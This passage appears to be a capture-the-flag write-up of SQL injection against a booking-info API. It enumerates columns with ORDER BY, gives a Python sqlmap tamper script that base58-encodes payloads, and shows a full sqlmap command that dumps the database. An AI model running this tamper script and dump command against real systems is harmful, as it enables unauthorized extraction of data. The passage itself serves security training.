 ![](cybersecurity/images/Pasted%2520image%252020250702163611.png)


![](cybersecurity/images/Pasted%2520image%252020250702163714.png)

No bad request so it may work, let's try to enumerate the number of rows by using `order by`:

![](cybersecurity/images/Pasted%2520image%252020250702163810.png)

![](cybersecurity/images/Pasted%2520image%252020250702163858.png)

![](cybersecurity/images/Pasted%2520image%252020250702163911.png)

On `3` we get a bad request, which means that SQLI is possible, we can automate the process with `sqlmap` but we need a tamper, a tamper is a little Python hook that sits between the tool and the target, grabbing every injection payload sqlmap generates and transforming it before it’s sent. we need it thanks to the `base58` format, let's use this script:

```python
from lib.core.enums import PRIORITY
import base58

__priority__ = PRIORITY.HIGHEST

def tamper(payload, **kwargs):
    """
    Encode the payload with base58 :)
    """
    if payload:
        prefixed_payload = f"booking_id:{payload}"
        encoded_payload = base58.b58encode(prefixed_payload.encode()).decode()
        return encoded_payload
    return payload
```

Now, we need to create a tamper.py file with those contents and an `__init__.py` file too, once we do it, we can send the following `sqlmap` command:

```bash
sqlmap -u "http://IP/api/booking-info?booking_key=" -p "booking_key" --tamper=PATH TO TAMPER.PY/tamper.py --dbms=sqlite --technique=U --string="not found" --random-agent --level=5 --risk=3 --dump -batch
```


Make sure you got `base58` on pip before using the command:

```
pip install base58
```

We can see this:

![](cybersecurity/images/Pasted%2520image%252020250702164805.png)


